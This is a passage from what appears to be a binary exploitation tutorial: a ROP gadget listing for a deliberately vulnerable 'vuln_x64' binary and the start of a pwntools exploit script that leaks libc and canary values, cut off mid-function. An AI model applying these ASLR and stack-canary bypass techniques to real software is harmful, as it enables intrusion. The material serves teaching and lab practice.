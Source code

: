```
[...]
0x00000000004006d0: pop rbp; ret; 
0x0000000000400903: pop rdi; ret; 
0x0000000000400901: pop rsi; pop r15; ret; 
0x00000000004008fd: pop rsp; pop r13; pop r14; pop r15; ret; 
0x000000000040075a: push rbp; mov rbp, rsp; call rax; 
0x0000000000400757: sal byte ptr [rcx + rsi*8 + 0x55], 0x48; mov ebp, esp; call rax; 
0x0000000000400915: sub esp, 8; add rsp, 8; ret; 
0x0000000000400914: sub rsp, 8; add rsp, 8; ret; 
0x00000000004006ca: test byte ptr [rax], al; add byte ptr [rax], al; add byte ptr [rax], al; pop rbp; ret; 
0x0000000000400759: int1; push rbp; mov rbp, rsp; call rax; 
0x00000000004007c2: leave; ret; 
0x00000000004005c1: ret; 

63 gadgets found

```

You can see that in our small binary over 60 unique gadgets are already present.  
Now all that's left is chaining the right ones together ;) .   
In our case this won't be as complicated, but depending on the binary you want to exploit this task can be a real hassle!

### The exploit

```python
#!/usr/bin/env python2

import argparse
from pwn import *
from pwnlib import *

context.binary = ELF('./binaries/vuln_x64')
context.log_level = 'DEBUG'

libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

pop_rdi_ret_gadget = 0x0000000000400903


def prepend_0x_to_hex_value(value):
    full_hex = '0x' + value
    return full_hex


def cast_hex_to_int(hex_value):
    return int(hex_value, 16)


def get_libc_base_address(leak_dump):
    random_libc_address = leak_dump.split('.')[1]
    random_libc_address_with_0x_prepended = prepend_0x_to_hex_value(random_libc_address)
    print '[*] leaked position within libc is at %s' % random_libc_address_with_0x_prepended
    libc_to_int = cast_hex_to_int(random_libc_address_with_0x_prepended)
    libc_base = hex(libc_to_int - 0x3c6790)                                             # offset found through debugging
    print "[=>] That puts the libc base address at %s" % libc_base
    return cast_hex_to_int(libc_base)


def get_canary_value(leak_dump):
    canary_address = leak_dump.split('.')[70]
    full_canary_value = prepend_0x_to_hex_value(canary_address)
```